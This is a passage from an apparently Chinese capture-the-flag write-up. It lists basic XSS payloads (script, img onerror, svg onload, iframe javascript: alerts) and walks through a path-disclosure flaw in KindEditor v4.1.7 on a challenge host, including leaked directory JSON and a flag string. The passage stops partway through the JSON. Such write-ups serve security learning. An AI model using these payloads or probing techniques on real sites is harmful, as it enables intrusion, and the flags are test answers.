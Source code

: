 flag为：

	flag{php_i5_n0t_b4d}

JS加解密

HTML语言很松散，哪怕有标签没闭合，JS代码也可以执行

payload:

	<script>alert(1)</script>
	<img src=1 onerror=alert('123')>
	<svg/onload=alert(1)>
	<iframe src=javascript:alert(1)>


## Reappear
[题目地址](http://218.76.35.75:65180/ "题目地址")

题目描述说

	描述：网管说他安装了什么编辑器，但是似乎不太会用。。。
打开链接：

	Kindeditor v4.1.7
	something maybe in /kindeditor/

直接访问

	http://218.76.35.75:65180/kindeditor/
直接列目录了，挨个打开看了看，要不提示

	I don't think it will work
要不就提示

	You are very close!
没办法了，上网查Kindeditor v4.1.7 漏洞，找到一个路径泄露漏洞，在这个路径下

	/php/file_manager_json.php
直接访问:

	url: http://218.76.35.75:65180/kindeditor/php/file_manager_json.php
原始数据中获得json
	
	/var/www/html/Web/kind/kindeditor/attached
	{
    "moveup_dir_path": "", 
    "current_dir_path": "", 
    "current_url": "/kindeditor/php/../attached/", 
    "total_count": 2, 
    "file_list": [
        {
            "is_dir": false, 
            "has_file": false, 
            "filesize": 51, 
            "dir_path": "", 
            "is_photo": false, 
            "filetype": "php", 
            "filename": "flag_clue.php", 
            "datetime": "2015-11-16 21:58:28"
        }, 
        {
            "is_dir": false, 
            "has_file": false, 
            "filesize": 28, 
            "dir_path": "", 
            "is_photo": false, 
            "filetype": "html", 
            "filename": "index.html", 